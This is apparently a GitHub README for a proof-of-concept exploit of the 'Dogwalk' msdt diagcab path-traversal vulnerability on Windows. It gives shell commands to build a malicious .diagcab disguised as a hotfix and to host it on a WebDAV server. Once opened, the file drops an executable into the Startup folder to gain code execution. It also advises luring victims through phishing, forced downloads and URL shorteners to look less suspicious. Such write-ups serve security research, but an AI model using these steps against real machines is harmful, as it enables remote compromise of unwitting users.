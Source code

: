 <div align=center>
<h1> Dogwalk Proof-of-Concept🐾</h1>
<pre><code>
<h><strong>🚨 Disclaimer 🚨</strong></h4>

<br><br>The PoC enables an attacker to be able to obtain <strong>Remote Code Injection</strong> on a Windows victim device.
<br>The goal of this repo is to make a PoC even more usable than the <a href=https://github.com/irsl/microsoft-diagcab-rce-poc>initial repo</a>.
<br>DO NOT USE IT WITHOUT PRIOR AUTHORIZATION!
<br><br><i>Regarding the damage caused and the simplicity of exploitation, I hope Microsoft will fix it</i>
</code></pre>
</div>

* [🧠 Understand it](#how-it-works)
* [🐾 Run it](#lets-get-it)
* [📺 Show Me](#%EF%B8%8F-wait-and-see)

***Core concept:*** path traversal vulnerability in Microsoft's Diagcab technology (`msdt`) that could lead to remote code execution.<br>
You can find the full advisory in the [blog post](https://medium.com/@radimre83/the-trouble-with-microsofts-troubleshooters-6e32fc80b8bd)<br>
The vulnerability has been reported for **2 years** (by [@irsl](https://github.com/irsl)) and still has **no fix**!




## How it works?

The Proof-of-Concept sets up a webdav server hosting a malicious `.diagcab` file that will perform a path transversal to write a malicious executable in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`. Writing an executable in this folder will execute it each time the user start the windows machine, this is called ***Boot Logon Autostart Execution***.

So, basically what we need is:
* webDAV server
* Malicious `.diagcab` file
* Malicious executable *(legit one or basic text file is sufficient for the PoC)*

### 🎬 Scenario

1. The victim will visit a link (phishing, social engineering, or whatever) that will download the `.diagcab` file

<sup>*(💡 use `Content-type: application/octet-stream` response header to make the Browser automaticaly downloading the file when browsing the url)*</sup>

2. The victim click on the file download (could easily/accidentaly happen by just clicking on the browser download folder)
3. The cab file loads the webdav malicious executable -> ***(path transversal)*** downloaded in Start up menu
4. The user restart his device -> ***(RCE)***

## Let's get it

If you are too lazy (or in a hurry) to proceed step-by-steps:
```shell
./hurry-dogwalk.sh [WEBDAV_URL]         # need docker
# Stop the server
./hurry-dogwalk.sh --clean
```

Otherwise ↓↓

### 🔨 Craft the  `.diagcab` file

* `.diagcfg` are simple XML files that hold reference to one or more diagnostic packages and provide meta information about them
* They are packaged into Microsoft cabinet file archives and saved with `.diagcab` extension.

Firt build `custom.diagcfg`:
```shell
./build-malicious-diagcfg.sh --url [WEBDAV_URL]
```

And build the `hotfix895214.diagcab`:
```shell
cabarc.exe n hotfix895214.diagcab custom.diagcfg
# run it on windows (or with wine). If you do not find carbarc.exe use http://jc.bellamy.free.fr/download/cabarc.exe or http://download.microsoft.com/download/platformsdk/cab/2.0/w98nt42kmexp/en-us/Cabsdk.exe
```

Finally, move it in the `./webdav/diagcab-webdav-poc/config` directory

### 🏗️ Set up the server

Put the executable you want to transfer on victim machine within `./webdav/malicious` directory... <sup>*(Here we use the classic `calc.exe`)*</sup>

...And launch the server:
```
cd ./webdav/diagcab-webdav-poc/
perl diagcab-webdav-poc.pl
```

The malicious `.diagcab` is available at `https://[WEBDAV_URL]/config/hotfix895214.diagcab`. You now have to lure a victim to click on this link.

<sup>*(💡you can use URL shortener to make it appears less suspicious)*</sup>

### 👁️ Wait and see

<details>
<summary><b>Dogwalk set up</b></summary>
<div align=center>
<img src=https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_setup.gif>
</div>
</details>

🐾🐾

![demo](https://github.com/ariary/Dogwalk-rce-poc/blob/master/img/dogwalk_exploit.gif)


